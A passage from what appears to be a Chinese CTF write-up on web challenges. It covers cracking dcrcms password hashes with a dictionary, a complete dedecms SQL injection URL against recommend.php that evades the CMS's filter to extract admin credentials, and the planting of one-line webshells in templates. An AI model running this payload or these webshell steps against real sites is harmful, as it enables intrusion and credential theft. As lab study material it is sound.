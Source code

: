   下载dcrcms源码看了一下加密算法是
  ```
  <?php
    $password = crypt(md5($_POST['password']),'dcr')
  ?>
  ```

  于是利用弱口令字典按照加密算法进行加密，最后得到明文密码。最后登陆后台。改模板，一句话，拿到key。

4. 一个你可以搞得定的CMS

  dedecms。。这个题目出得，也是醉了，怎么说呢。直接打开data/mysqli_error_trace.inc
  发现以前的注入记录，在浏览器中输入后得到密码。
  需要注意的是得到的密码并不是一个标准的Md5值，需要把前面3位和后面1位去掉，解密后拿到密码，
  进入后台。发现index.html模板页面已经被写入了一句话，连接后拿到key.

  注入点在`http://ip/plus/recommend.php`

  看了网上资料后一步步构造了
  ```
  http://ip/plus/recommend.php?action=&aid=1&_FILES[type][tmp_name]=\%27or%20mid=@`\%27`%20/*!50000union*//*!50000select*/1,2,3,(select%20CONCAT(0x7c,userid,0x7c,pwd)+from+`%23@__admin`limit+0,1),5,6,7,8,9%23@`\%27`+&_FILES[type][name]=1.jpg&_FILES[type][type]=application/octet-stream&_FILES[type][size]=111
  ```

  其中
  ```
  mid开头和结尾的@`\%27`

  select和union关键字要有/*!50000*/包含
  ```
  是为了绕过dedecms中的防注入机制，否则会被拦截.

  ![dedecms_safe_query.png](imgs/dedecms_safe_query.png)

5. 入门从这里开始

  打开是一个"野草CMS"，随手输入admin.php进入后台页面，又随手输入admin、admin。直接进入后台。

  编辑模板页面发现有许多页面已经写入了一句话。但是菜刀连不上，于是到index.html页面，
  重新写入一句话，菜刀连接后拿到Key。

## 0x03数据库安全

1. sql注入
